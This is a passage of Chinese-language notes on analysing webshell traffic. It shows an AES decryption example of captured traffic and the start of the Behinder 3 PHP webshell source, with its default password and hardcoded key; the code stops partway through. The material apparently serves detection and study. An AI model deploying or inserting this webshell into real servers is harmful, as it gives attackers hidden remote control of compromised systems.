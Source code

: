 ![img](images/Webshell流量分析/202211091042813.png)

流量AES加解密示例：

```
# 密钥
key = 93edbafac50eb64c

# 密文
cipher = pu+VEA885HAovMSbbH5wj3cXwQkpnSRYpZy8fAWrRA3ETLuyZqRQSm6koxDp1mKeTYLUlMk59hK6lOAbj2Hh/vxXzVyn/4uPlKV7WeMOeRGLhBQMou01R+TJLP7NTtVn

# 通过在线工具解密
# 明文
{"status":"c3VjY2Vzcw==","msg":"YmMzYjNhNzktY2Q4NC00ZGUwLWJjYzUtMjQ0NmY4NzUxNjE1"}
# 再通过base64解密
{"status":"c3VjY2Vzcw==","msg":"bc3b3a79-cd84-4de0-bcc5-2446f8751615"}
```

### Behinder 冰蝎3

#### 基础代码

```php
# behinder3.php，密码rebeyond

<?php
@error_reporting(0);
session_start();
    $key="e45e329feb5d925b"; //该密钥为连接密码32位md5值的前16位，默认连接密码rebeyond
	$_SESSION['k']=$key;
	session_write_close();
	$post=file_get_contents("php://input");
	if(!extension_loaded('openssl'))
	{
		$t="base64_"."decode";
		$post=$t($post."");
		
		for($i=0;$i<strlen($post);$i++) {
    			 $post[$i] = $post[$i]^$key[$i+1&15]; 
    			}
	}
	else
	{
```